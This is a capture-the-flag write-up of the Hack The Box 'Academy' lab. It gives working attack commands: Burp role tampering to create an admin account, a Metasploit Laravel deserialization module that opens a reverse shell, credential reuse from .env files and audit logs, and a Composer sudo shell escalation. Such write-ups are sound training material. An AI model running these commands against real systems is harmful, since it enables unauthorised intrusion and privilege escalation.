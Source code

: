 ```yaml
---
layout: post
title:  "Hack The Box - Academy Writeup"
date:   2021-02-27 06:00:00
categories: Security CTF HTB"
author: Ryan
---
```


*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](../images/HTB-Academy/Header.png)

Academy is an Easy level linux machine. Based on the creator and community statistics, we'll likely have a decent amount of enumeration to get through, while working heavily off of existing CVEs, against a realistic environment.  
![Statistics](../images/HTB-Academy/Statistics.png)

## Information Gathering

### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -p22,80,33060 -sC -sV -oA Extracts/Academy 10.10.10.215`  
![Nmap](../images/HTB-Academy/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 80 - HTTP**: A basic websever hosting what appears to be an simple website on Apache v2.4.41.
* **Port 33060 - MYSQLX**: MySQL is a freely available open source Relational Database Management System. The X Protocol found here is supported by MySQL Shell, MySQL Connectors, and MySQL Router.

We'll also want to add Academy.htb to our hosts file.

### Academy Site
Navigating to the Academy site on port 80 reveals a very basic landing page and two links to Login.php and Register.php. We can attempt to enumerate additional pages using `gobuster` and a wordlist of commonly used resources.  
`>> gobuster dir -u academy.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php -t 100`  
![Gobuster](../images/HTB-Academy/Recon_Gobuster.png)  

The most promising result of the Gobuster scan is the discovery of an administrative area. Unfortunately, it appears to be behind a login. Let's move on to registering an account and see what we can find once we're authenticated.  
![Register](../images/HTB-Academy/Recon_Register.png)  

Interesting. Capturing the registration request with our `Burpsuite` proxy reveals that in addition to our username and password, there's a `roleid` defaulting to 0. It's possible this flag could differentiate a normal user from an admin, let's change that to a 1?  
![Admin](../images/HTB-Academy/Recon_Admin.png)  

Looks like we were right about the `roleid` and successfully created our own administrative account! Logging into the /admin.php page reveals some usernames (`cry0l1t3` and `mrb3n`), as well as another subdomain `dev-staging-01.academy.htb`. Let's add that to our host file and go there next.

### Dev-Staging-01
Navigating to the dev-staging area, we're shown a dashboard with a large amount of system configuration and application information. There's a lot to dig through, but we should be able to find something interesting to work with.  
![Admin](../images/HTB-Academy/Recon_DevStage.png)

## Foothold
[Laravel](https://laravel.com/) is a framework for building web applications in PHP. Searching Exploit.db leads us to the following [metasploit module](https://www.exploit-db.com/exploits/47129), for a deserialization attack leveraging the App_Key and gaining remote code execution. Based on the configuration findings in our Information Gathering stage, we should have all the pieces needed to make this work.  
`>> msfconsole`  
`>> use exploit/unix/http/laravel_token_unserialize_exec`  
`>> set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=`  
`>> set RHOSTS academy.htb`  
`>> set VHOST dev-staging-01.academy.htb`  
`>> set LHOST tun0`  
![Reverse Shell](../images/HTB-Academy/Foothold_MSFConsole.png)  

### Upgrading our Shell
The initial shell we've got is clunky and not very easy to use. Let's upgrade it with the following commands:  
`>> python3 -c "import pty; pty.spawn('/bin/bash')"`  
`>> export TERM=xterm`

### Looking Around the Box
We appear to be connected as the www-data user, which doesnt have access to the user.txt flag. By checking through the users in the `/home` directory, we can see the flag belongs to `cry0l1t3`, an admin of the site.

## Lateral Movement 1
When we first landed in the box, we found ourself in the `/var/www/html/htb-academy-dev-01/public` directory. Digging around, we eventually find a hidden `.env` file containing much of the same information we already noted in the website. However, by looking in the equivalent file from the `/var/www/html/academy` directory, we discover a few changes; The most important of which is that the database password has been changed to `mySup3rP4s5w0rd!!`.

When users are asked to create a new password for something, it's very common for them to reuse a password from somewhere else. It's familiar to them, and easier to remember. Keeping that in mind, we attempt to authenticate with each of the users we discovered in the `/home` directory, successfully authenticating with our flag holder `cry0l1t3`.  
`>> ssh cry0l1t3@10.10.10.215`  
`>> mySup3rP4s5w0rd!!`

### User Flag
![User Flag](../images/HTB-Academy/User_Flag.png)  

## Lateral Movement 2
With our new user access we can continue to look around the box, checking areas we may not have had access to before. Whether running an automated enumeration script, or by digging through the box manually, we can eventually be led to system logs with more valuable secrets to use.  
`>> ausearch -c su`  
![Logs](../images/HTB-Academy/Lateral2_Logs.png)  

The data we found is currently in hex format, but decoding it reveals the text: `mrb3n_Ac@d3my!`. Lets see if it works for the mrb3n account:  
`>> su mrb3n`  
`>> mrb3n_Ac@d3my!`

## Privilege Escalation
One of the first enumeration commands to run as a new user is `sudo -l`. This allows us to list out the priviledged commands we can run, as long as we have the user's password.  
`>> sudo -l`  
`>> mrb3n_Ac@d3my!`  
![Sudo](../images/HTB-Academy/PrivEsc_Sudo.png)  

Referencing the [GTFOBins](https://gtfobins.github.io/gtfobins/composer/#sudo) page for Composer, we're shown the following escilation steps:  
`>> TF=$(mktemp -d)`  
`>> echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json`  
`>> sudo composer --working-dir=$TF run-script x`  

### Root Flag
![Root Flag](../images/HTB-Academy/Root_Flag.png)  